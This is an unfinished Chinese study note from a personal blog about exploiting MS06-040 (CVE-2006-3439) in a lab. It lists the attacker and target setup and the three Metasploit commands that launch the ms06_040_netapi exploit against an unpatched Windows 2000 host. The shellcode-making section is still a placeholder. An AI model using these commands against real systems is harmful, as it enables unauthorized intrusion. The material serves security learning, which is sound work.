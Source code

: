 ```yaml
---
title: 漏洞学习笔记-005-Metasploit制作ShellCode
description: Metasploit制作ShellCode
slug: exploit-005
date: 2020-10-20 22:20:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


本文来源：[Moeomu的博客](/p/exploit-005/)

...未完待续(Metasploit旧版本真难找)...

## 入侵Windows实验

### 实验介绍

> MS06-040，CVE-2006-3439

|  | 推荐的环境 | 备注 |
|-|-|-|
| 攻击机系统 | Kali Linux 2021.1 | |
| 目标主机系统 | Windows 2000 SP4 | |
| 补丁版本 | KB921883 | 确保目标主机未安装补丁 |
| 网络环境 | 可互相ping通 | 确保无防火墙干扰 |

### 命令行界面漏洞测试

- `use exploit/windows/smb/ms06_040_netapi`
- `set rhosts 10.211.55.5`
- `exploit`

## 使用MetaSploit制作ShellCode

...未完待续...
